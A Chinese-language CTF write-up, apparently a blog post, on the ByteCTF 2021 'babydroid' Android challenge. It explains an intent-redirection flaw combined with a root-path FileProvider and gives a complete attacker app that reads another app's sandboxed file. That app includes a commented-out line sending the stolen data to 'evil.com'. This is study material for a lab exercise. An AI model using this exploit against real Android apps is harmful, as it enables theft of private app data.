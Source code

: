 ```yaml
---
layout: post
title:  babydroid(ByteCTF2021)
date:   2025-02-09 00:08:01 +0300
image:  2025-02-09-woman.jpg
tags:   [ctf,android,reverse,Pwn]
---
```


接收flag

```assembly
package com.bytectf.babydroid;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.util.Log;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;

public class FlagReceiver extends BroadcastReceiver {
    @Override  // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String s = intent.getStringExtra("flag");
        if(s != null) {
            this.writeFile(new File(context.getFilesDir(), "flag"), s);
            Log.e("FlagReceiver", "received flag.");
        }
    }
}
```

FlagReciver是一个广播接收器，经分析是设置flag的，将接收的flag写入文件

但是这里有一点要注意，getFilesDir()是哪个目录呢，这里可以自己写代码进行验证，flag文件存储的目录是/data/data/com.bytectf.babydroid/files/flag。

漏洞所在的Activity

```assembly
package com.bytectf.babydroid;

import android.app.Activity;
import android.content.Intent;
import android.os.Bundle;

public class Vulnerable extends Activity {
    @Override  // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        this.startActivity(((Intent)this.getIntent().getParcelableExtra("intent")));
    }
}
```

利用这个方法可以使用传入的intent参数直接`startactivity`且没有任何校验，这样就可以以目标app的身份进行一次`startactivity`完成intent的重定向。

Manifest

```assembly
<?xml version="1.0" encoding="UTF-8"?>
<manifest android:compileSdkVersion="30" android:compileSdkVersionCodename="11" android:versionCode="1" android:versionName="1.0" package="com.bytectf.babydroid" platformBuildVersionCode="30" platformBuildVersionName="11" xmlns:android="http://schemas.android.com/apk/res/android">
  <uses-sdk android:minSdkVersion="21" android:targetSdkVersion="30"/>
  <application android:allowBackup="true" android:appComponentFactory="androidx.core.app.CoreComponentFactory" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:roundIcon="@mipmap/ic_launcher_round" android:supportsRtl="true" android:theme="@style/Theme.Babydroid">
    <activity android:exported="true" android:name="com.bytectf.babydroid.MainActivity">
      <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
      </intent-filter>
    </activity>
    <activity android:name="com.bytectf.babydroid.Vulnerable">
      <intent-filter>
        <action android:name="com.bytectf.TEST"/>
      </intent-filter>
    </activity>
    <receiver android:exported="false" android:name="com.bytectf.babydroid.FlagReceiver">
      <intent-filter>
        <action android:name="com.bytectf.SET_FLAG"/>
      </intent-filter>
    </receiver>
    <provider android:authorities="androidx.core.content.FileProvider" android:exported="false" android:grantUriPermissions="true" android:name="androidx.core.content.FileProvider">
      <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/file_paths"/>
    </provider>
  </application>
</manifest>
```

当Activity中存在intent-filter时默认时可导出的，所以外部应用可以直接打开`Vulnerable`

存在一个非导出的`FileProvider`，可以提供文件的读写和分享能力。其执行的file_paths内容如下：

file_path.xml

```assembly
<?xml version="1.0" encoding="UTF-8"?>
<paths>
  <root-path name="root" path=""/>
</paths>
```

无法直接访问 file provider， 但是可以通过 Intent 重定向来窃取 flag 文件

### FileProvider

​	 Android 7开始不允许以 file:// 的方式通过 Intent 在两个 App 之间分享文件，而是通过 FileProvider 生成 content://Uri 。如果在 Android 7以上的版本继续使用 file:// 的方式分享文件，则系统会直接抛出异常。

​	 FileProvider 是一个特殊的 ContentProvider 子类，如果使用包含 Content URI 的 Intent 共享文件时，需要申请临时的读写权限，这可以通过 Intent.setFlags() 方法实现。

其导出的文件可以从root即根路径开始，都可以用这个FileProvider访问到(前提时目标app有权限访问，可以访问目标app沙箱内部的文件，以此完成沙箱内的文件读写，甚至可以读写内部的可执行文件，dex or so)

所以可以使用**intent重定向**来访问这个非导出的FileProvider内容，使用目标app的权限来读取其沙箱内部的文件。flag文件是通过接收广播后写入到沙箱内部files文件夹中的。

### 攻击

首先使用命令发送广播，创建flag文件：

```assembly
adb shell su root am broadcast -a com.bytectf.SET_FLAG -n com.bytectf.babydroid/.FlagReceiver -e flag 'flag{success!!!}'
```

攻击代码：

```assembly
package com.example.myapplication;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.TextView;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.FileNotFoundException;
import java.io.IOException;
import java.io.InputStream;

public class MainActivity extends AppCompatActivity {
    public TextView tv;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        if(getIntent().getAction().equals("evil")){
            Uri data = getIntent().getData();
            try {
                InputStream inputStream = getContentResolver().openInputStream(data);
                byte[] bytes = new byte[inputStream.available()];
                inputStream.read(bytes);
                String str = new String(bytes);
                Log.e("evil", str);
//                httprequest("http://evil.com/?" + str);
                tv = findViewById(R.id.tv);
                tv.setText(str);

            } catch (FileNotFoundException e) {
                e.printStackTrace();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }else{
            Intent extra = new Intent("evil");
            extra.setClassName(getPackageName(), MainActivity.class.getName());
            extra.setData(Uri.parse("content://androidx.core.content.FileProvider/root/data/data/com.bytectf.babydroid/files/flag"));
            extra.addFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                    | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
                    | Intent.FLAG_GRANT_READ_URI_PERMISSION
                    | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);

            Intent intent = new Intent();
            intent.setClassName("com.bytectf.babydroid", "com.bytectf.babydroid.Vulnerable");
            intent.setAction("com.bytectf.TEST");
            intent.putExtra("intent", extra);
            startActivity(intent);
        }
    }
}
```

Intent中加入下面这些中**`Grant相关的flags`**

```assembly
public static final int FLAG_GRANT_READ_URI_PERMISSION = 0x00000001;
public static final int FLAG_GRANT_WRITE_URI_PERMISSION = 0x00000002;
public static final int FLAG_GRANT_PERSISTABLE_URI_PERMISSION = 0x00000040
public static final int FLAG_GRANT_PREFIX_URI_PERMISSION = 0x00000080;
```

- FLAG_GRANT_READ_URI_PERMISSION：允许接收者读取 URI 的内容，即读取 URI 的数据，并在权限授予期间保持该权限。

- FLAG_GRANT_WRITE_URI_PERMISSION：允许接收者写入 URI 的内容，即修改 URI 的数据，并在权限授予期间保持该权限。

- FLAG_GRANT_PERSISTABLE_URI_PERMISSION：与 `**FLAG_GRANT_READ_URI_PERMISSION** `或 **`FLAG_GRANT_WRITE_URI_PERMISSION `**一起使用，表示允许接收者在授予许可后持久保存该权限。这意味着即使应用程序被关闭，权限也会保持有效，并且对 URI 的访问仍然是允许的。

- FLAG_GRANT_PREFIX_URI_PERMISSION：允许接收者读取或写入指定 URI 的所有后代 URI，而不必单独为每个 URI 授予权限。

攻击成功

![](https://raw.githubusercontent.com/yqw1212/yqw1212.github.io/refs/heads/master/img/2025-02-09-attack.png)

参考

https://linkleyping.top/bytectf2021-pre/#babydroid

https://blog.lleavesg.top/article/ByteCTF-2021-BabyDroid#5359052ae6cf4907a20ecbbe64504624

https://mp.weixin.qq.com/s/rxrmtK-Q7RJAbdRVoRNlOA